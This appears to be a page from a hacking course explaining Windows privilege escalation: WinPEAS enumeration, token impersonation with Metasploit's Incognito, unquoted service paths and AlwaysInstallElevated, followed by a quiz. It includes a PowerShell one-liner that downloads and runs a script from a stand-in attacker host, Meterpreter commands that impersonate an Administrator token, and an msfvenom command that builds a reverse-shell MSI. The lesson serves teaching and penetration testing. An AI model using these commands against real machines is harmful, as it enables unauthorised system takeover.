

# Windows Privilege Escalation (Token Impersonation)

Windows privilege escalation follows the same goal as Linux: moving from a regular user to **SYSTEM** or **Administrator**. However, the mechanisms are very different, focusing on services, configurations, and **Tokens**.

---

## 1. Automated Enumeration (WinPEAS)

Just like Linux, we use automated tools to find common path to power.

<TerminalWindow cmd="powershell -ep bypass -c IEX (New-Object Net.WebClient).DownloadString('http://hacker.com/winpeas.ps1')" output="[!] Checking for Unquoted Service Paths...
[!] Checking for AlwaysInstallElevated...
[!] Checking for Token Impersonation (SeImpersonatePrivilege)...
[!] Potential Escalation Found!" />

---

## 2. Token Impersonation (Incognito)

Windows uses "Tokens" to manage permissions for running processes. If a process running as an Administrator has a token on the system, a hacker with certain privileges can "impersonate" that token to become that user.

- **The Privilege**: `SeImpersonatePrivilege` or `SeAssignPrimaryToken`.
- **The Tool**: Metasploit's **Incognito** module.

<TerminalWindow cmd="meterpreter > load incognito" output="incognito loaded.
meterpreter > list_tokens -u
[!] Delegation Tokens: NT AUTHORITY\SYSTEM, ANTIGRAVITY\Administrator
meterpreter > impersonate_token ANTIGRAVITY\Administrator
[+] Successfully impersonated user Administrator" />

---

## 3. Unquoted Service Paths

If a service is installed in a path with spaces, and the path is not wrapped in quotes, Windows can be tricked into running a malicious file instead of the actual service.

**Example Path:** `C:\Program Files\My Service\app.exe`
**Windows interprets as:** 
1. `C:\Program.exe`
2. `C:\Program Files\My.exe`
3. `C:\Program Files\My Service\app.exe`

If you have write permission to `C:\`, you can place your malicious `Program.exe` there. When the service restarts, your code runs as **SYSTEM**.

---

## 4. AlwaysInstallElevated

This is a Windows setting that allows a regular user to install an `.msi` package with system privileges. If this is enabled in the Registry, you can create a malicious MSI that creates an admin user.

<InfoBox type="tip">
**Hacker Tip:** You can generate a malicious MSI using `msfvenom`:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=IP LPORT=4444 -f msi -o setup.msi`
</InfoBox>

---

## Visualizing Token Impersonation

---

## Knowledge Check

<Quiz 
  question="Which tool is the industry standard for automated Windows privilege escalation enumeration?"
  options={["LinPEAS", "WinPEAS", "Nmap", "Wireshark"]}
  answer="WinPEAS"
  explanation="WinPEAS (Windows Privilege Escalation Awesome Scripts) is a script that searches for common misconfigurations on Windows."
/>
